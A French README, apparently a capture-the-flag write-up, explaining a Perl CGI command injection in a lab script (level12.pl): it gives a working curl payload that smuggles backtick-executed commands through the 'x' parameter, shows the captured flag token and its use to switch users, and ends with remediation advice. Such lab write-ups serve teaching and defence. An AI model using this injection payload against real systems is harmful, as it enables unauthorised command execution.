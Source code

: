 Voici le README adapté au même format que précédemment :

---

## Rapport de Vulnérabilité : Injection de Commande Perl via CGI

### Description

Cette vulnérabilité exploite une injection de commandes via un script Perl CGI (`level12.pl`) accessible localement via un serveur web tournant sur le port 4646. Le script utilise les entrées utilisateur sans filtrage adéquat dans une commande système (`egrep`). En exploitant cette vulnérabilité, il est possible d’exécuter arbitrairement des commandes shell avec les privilèges de l’utilisateur flag12 et ainsi récupérer le token pour passer au niveau suivant.

---

### Comment Exploiter la Faille

**Étape 1 : Analyse du script vulnérable**
Le script Perl utilise la fonction suivante :

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

* `$xx` provient directement d’un paramètre utilisateur via CGI (`param("x")`), sans filtrage suffisant.
* Ceci permet l’injection de commandes arbitraires en utilisant des backticks ou d'autres mécanismes d’exécution.

**Étape 2 : Préparation d'une requête malveillante**
Pour exécuter la commande `getflag`, il suffit d’envoyer une requête HTTP contenant une injection via le paramètre `x` :

```shell
curl 'http://localhost:4646/level12.pl?x="%60/*/getflag>%262%60"'
```

* `%60` est le codage URL du caractère backtick (`` ` ``).
* `/*/getflag` contourne des restrictions de chemin pour appeler explicitement le binaire `getflag`.
* `>%262` redirige la sortie vers le flux d’erreurs standard (stderr, codé `%26` qui représente le caractère `&`).

**Étape 3 : Récupération du flag**
Le résultat du flag est enregistré dans les logs d’erreurs Apache. Affichez-les ainsi :

```shell
cat /var/log/apache2/error.log
```

Vous obtenez alors le flag :

```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**Étape 4 : Passage au niveau suivant**
Utilisez ce token pour passer à l'utilisateur suivant :

```shell
su level13
Mot de passe : g1qKMiRpXf53AWhDaU7FEkczr
```

---

### Comment Résoudre la Faille

1. **Validation stricte des entrées utilisateur :**

   * Toujours valider et filtrer les entrées CGI avant de les utiliser dans une commande système.
   * Utilisez des modules Perl spécifiques qui assurent l’échappement approprié des caractères spéciaux (par exemple, `quotemeta()` ou équivalents).

2. **Ne pas appeler directement des commandes shell avec entrées non validées :**

   * Évitez l’utilisation de backticks sur les entrées utilisateur.
   * Si l’appel est nécessaire, utilisez les formes sécurisées d’exécution de commande (par exemple, `open()` avec liste de paramètres explicite).

3. **Séparer les privilèges :**

   * N’exécutez pas les scripts CGI avec des privilèges élevés inutilement.

---

### Conclusion

Cette vulnérabilité souligne l’importance critique d’un contrôle rigoureux des entrées utilisateurs lorsqu'elles sont utilisées dans des commandes système. L’absence de filtrage permet facilement à un attaquant d’exécuter des commandes arbitraires avec des privilèges élevés, conduisant à une escalade rapide des privilèges.
